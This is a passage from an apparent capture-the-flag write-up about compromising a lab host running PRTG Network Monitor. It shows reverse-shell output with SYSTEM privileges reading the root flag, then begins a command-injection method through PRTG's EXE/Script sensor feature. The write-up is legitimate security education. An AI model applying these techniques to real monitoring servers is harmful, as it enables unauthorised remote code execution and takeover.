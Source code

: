 ```bash
[*] Incoming connection (10.10.10.152,49873)
[*] AUTHENTICATE_MESSAGE (\,NETMON)
[*] User NETMON\ authenticated successfully
[*] :::00::4141414141414141
[*] Disconnecting Share(1:IPC$)
connect to [10.10.*.*] from (UNKNOWN) [10.10.10.152] 49881
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
....
C:\Users\Administrator\Desktop>dir
dir
    Volume in drive C has no label.
    Volume Serial Number is 684B-9CE8

    Directory of C:\Users\Administrator\Desktop

02/02/2019 11:35 PM <DIR> .
02/02/2019 11:35 PM <DIR> ..
02/02/2019 11:35 PM 33 root.txt
                1 File(s) 33 bytes
                2 Dir(s) 12,058,755,072 bytes free

C:\Users\Administrator\Desktop>type root.txt
type root.txt
30189..........................
```

<hr>

### Exploitation #3: Manual Command Injection / RCE through PRTG sensors

PRTG is a monitoring tool that supports a whole suite of sensors, like ping, http, snmp, etc. The server itself has been added in the device list, so it’s safe to assume we can add sensors to it:

<center><img src="/assets/img/feature-img/prtg_devices.png" alt="PRTG Devices"></center>

I clicked add sensor on the 10.10.10.152 server, then selected `EXE/Script` sensor.

<center><img src="/assets/img/feature-img/prtg_exe.png" alt="PRTG EXE"></center>
